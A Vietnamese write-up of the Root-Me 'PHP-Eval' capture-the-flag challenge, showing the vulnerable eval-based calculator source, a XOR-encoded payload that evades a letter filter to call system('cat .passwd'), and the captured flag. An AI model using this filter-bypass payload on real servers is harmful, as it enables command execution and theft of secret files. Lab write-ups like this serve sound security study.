 # PHP-EVAL

## Mô tả
Link: 
>https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

Category: Web, 40 points

Giao diện chính

![image](https://user-images.githubusercontent.com/72856776/115710947-258b2100-a39d-11eb-98a3-d4ea0a9adb1f.png)
## Hint
`Note : the flag is in .passwd file.`
## Source Code
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```
## Phương pháp
Sau khi đọc Hint mình nghĩ flag sẽ nằm trong file .passwd vì vậy ta cần phải "cat" được nó, bằng cách sử dụng hàm system. Nhưng nhìn vào source ta sẽ thấy, cần phải bypass được hàm preg_match để thực hiên được hàm system thông qua hàm eval. Để thực hiện được điều đó ta cần viết được payload có thể bypass các filter trên `[a-zA-Z]`.

Sau khi tham khảo một số nguồn thì mình tìm được 1 link viết khá đầy đủ về ý tưởng bypass filter này
>https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Trong này sẽ nêu ra 2 phương pháp. Nhưng sau khi đọc và được hướng dẫn thì mình quyết định sử dụng phương pháp sử dụng hàm XOR trong PHP. Về cơ bản thì hàm này sẽ XOR 2 kí tự với nhau để trả về 1 kí tự khác. Vì vậy ta có thể sử dụng chữ số hoặc kí tự đặc biệt để XOR ra những từ ta cần dùng trong viết code (cũng vì thế mà code sẽ nhìn khá cục súc).

Đây là code mình sử dụng để bypass chall này
```php
<?php
$_= ("3934%@"^"@@@@@-");      //$_= system;
$__= ("@@4"^"#!@");           //$__= cat;
$___= (".!337$"^"^@@@@@");    //$___= passwd;
$____= ("$__ .$___");         //$____= cat .passwd;
$_($____);                    //system(cat .passwd);
?>
```
Sau khi submit, server sẽ trả về cho ta kết quả

![image](https://user-images.githubusercontent.com/72856776/115714080-f080cd80-a3a0-11eb-88e7-edc35123cae6.png)

Mình cũng không rõ cái system nó ở đâu ra nên đã mặc kệ :v 
## Flag
>M!xIng_PHP_w1th_3v4l_L0L
